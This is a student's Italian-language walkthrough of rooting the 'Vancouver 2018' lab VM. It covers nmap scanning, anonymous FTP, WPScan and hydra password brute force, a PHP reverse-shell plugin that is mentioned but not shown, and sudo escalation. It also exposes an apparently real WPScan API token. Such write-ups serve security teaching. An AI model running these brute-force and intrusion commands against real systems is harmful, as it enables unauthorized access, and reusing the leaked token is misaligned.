 # 🛡️ EXTRA Vancouver 2018 Exploitation report

## 📋 **Descrizione Generale**
Questa relazione descrive i passi eseguiti durante l'analisi e l'attacco alla macchina virtuale (VM) fornita dal professore. Ho ottenuto accesso root tramite un approccio metodico utilizzando diverse tecniche di enumerazione e attacco.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione della VM**: 
   - Ho importato l'OVA fornitami dal professore.
   - La VM è stata avviata correttamente su VirtualBox/VMware.

2. **Scansione dell'indirizzo IP**:
   - Per identificare l'IP della VM assegnato dal router di casa, ho utilizzato **Nmap**:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'IP rilevato della VM target è **192.168.1.170**.

---

## 🔍 **Fase di Scansione e Enumerazione**
### 1️⃣ **Scansione delle Porte**
- Ho eseguito una scansione con Nmap per identificare i servizi attivi:
  ```bash
  nmap -sV -p- 192.168.1.170
  ```
- **Risultato**: Porta **FTP** attiva.

### 2️⃣ **Accesso FTP Anonimo**
- Dopo aver rilevato il servizio FTP, ho provato un accesso anonimo:
  ```bash
  ftp 192.168.1.170
  ```
- L'accesso è stato consentito come utente anonimo.
- Nella directory `public`, ho trovato il file **users.txt.bk**, contenente una lista di nomi utente.

### 3️⃣ **Scoperta di WordPress**
- Ho notato durante la scansione Nmap che la porta **80** era aperta e ospitava un servizio web HTTP.
- Utilizzando **Gobuster**, ho eseguito una scansione più aggressiva per individuare directory nascoste:
  ```bash
  gobuster dir -u http://192.168.1.170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
  ```
- **Risultato**: La scansione ha rilevato la presenza del file **robots.txt**:
  ```
  /robots.txt           (Status: 200) [Size: 43]
  ```
- Ho scaricato il file **robots.txt** per esaminarlo:
  ```bash
  curl http://192.168.1.170/robots.txt
  ```
- Il contenuto di **robots.txt** ha rivelato la directory nascosta **/backup_wordpress**.
- Ho visitato l'indirizzo `http://192.168.1.170/backup_wordpress` per esaminare il sito.
- Per ulteriore conferma, ho lanciato una scansione mirata con **WPScan**:
  ```bash
  wpscan --url http://192.168.1.170/backup_wordpress --api-token Tc1sdQWKLxFRktkneIXAx6CiY5a98HdnyhYaBr34058
  ```
- Il risultato ha confermato la presenza di un'installazione WordPress vulnerabile.

---

## 🔐 **Tentativi di Accesso ai Servizi**
### 4️⃣ **Enumerazione con WordPress**
- Utilizzando **WPScan**, ho eseguito un'analisi del sito WordPress rilevando una **vulnerabilità del software** che mi ha permesso di individuare le credenziali di accesso:
  ```bash
  wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords /usr/share/wordlists/rockyou.txt --api-token Tc1sdQWKLxFRktkneIXAx6CiY5a98HdnyhYaBr34058
  ```
- Dopo aver ottenuto le credenziali di accesso al pannello amministrativo, mi sono loggato su WordPress.
- Ho caricato un **plugin malevolo** contenente una **reverse shell PHP**, ottenendo una connessione backdoor al sistema.
- Tuttavia, mi sono ritrovato limitato all'utente **www-data**, con privilegi bassi. 

### 5️⃣ **Attacco Dizionario con Hydra su SSH** 🚀
Per bypassare le limitazioni, ho deciso di effettuare un attacco di dizionario con **Hydra** sul servizio SSH, utilizzando il file `rockyou.txt`.

**Comando utilizzato**:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.170
```

- **Risultato**: Ho trovato la combinazione:
  - **Username**: `anne`
  - **Password**: `princess`

---

## 🏆 **Accesso Root**
1. Dopo aver ottenuto le credenziali, ho eseguito il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```
2. Ho verificato se l'utente aveva privilegi sudo:
   ```bash
   sudo su
   ```
3. Inserendo nuovamente la password, sono diventato **root**.

### 📌 **Verifica Utente Root**
Per confermare l'accesso root, ho utilizzato i seguenti comandi:
```bash
whoami
id
```
- **Output**: `root` ✅

---

## 🎯 **Conclusione**
Ho ottenuto accesso completo alla macchina target partendo da una fase di **enumerazione** fino all'ottenimento dei privilegi **root**. La metodologia seguita è stata:

1. Identificazione dei servizi attivi con Nmap.
2. Accesso anonimo FTP e raccolta di informazioni.
3. Scoperta e exploit su WordPress con **WPScan** e caricamento di una **reverse shell**.
4. Scansione delle directory con **Gobuster** e individuazione del file **robots.txt**.
5. Identificazione della directory **/backup_wordpress** nascosta.
6. Attacco SSH con **Hydra** utilizzando la potenza bruta del mio hardware.
7. Escalation di privilegi per ottenere **root access**.

🚀 **Missione completata con successo!**
